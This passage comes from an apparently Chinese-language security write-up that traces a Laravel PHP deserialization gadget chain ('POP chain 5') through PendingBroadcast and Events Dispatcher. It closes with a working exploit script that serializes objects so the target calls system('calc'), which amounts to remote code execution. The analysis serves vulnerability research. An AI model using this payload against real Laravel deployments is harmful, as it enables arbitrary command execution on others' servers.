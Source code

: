 ```php
    class PendingBroadcast {
        protected $events;
        public function __construct()
        {
            $this->events = new ChannelManager();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```
### POP链利用流程图

![](https://p1.ssl.qhimg.com/t01897b941b5103d8dc.png "undefined")

## POP链-5
大致看了一遍`__call()`方法基本没有利用的地方了(太菜了找不到)，开始跟一下`dispath()`方法

![undefined](https://p0.ssl.qhimg.com/t01b2b0557300f7f989.png "undefined")

先跟进`src/Illuminate/Events/Dispatcher.php`中的`dispatch()`方法，注意到`$listener($event, $payload)`，尝试以这个为突破口来实现 RCE

![](https://p5.ssl.qhimg.com/t01882a2ac886bde391.png "undefined")

看看`$listener`的值是如何来的，跟进`getListeners()`方法，这里可以先通过可控变量`$this->listeners[$eventName]`来控制`$listener`的值，接着进入数组合并函数，调用`getWildcardListeners()`方法，跟进去看一下，这里保持默认设置执行完之后会返回`$wildcards = []`，接着回到数组合并函数合并之后还是`$this->listeners[$eventName]`的值，接着进入`class_exists()`函数，这里由于并不会存在一个命令执行函数的类名，因此可以依旧还是返回`$this->listeners[$eventName]`的值

![undefined](https://p4.ssl.qhimg.com/t014aca56b2a02516aa.png "undefined")

控制了`$listener`的取值之后，将传入的`$event`的值作为命令执行函数的参数值即可来进行 RCE 操作

### exp
```php
<?php
namespace Illuminate\Events {
    class Dispatcher {
        protected $listeners = [];
        public function __construct() {
            $this->listeners = ["calc" => ["system"]];
        }
    }
}



namespace Illuminate\Broadcasting {
    use  Illuminate\Events\Dispatcher;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = "calc";
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```
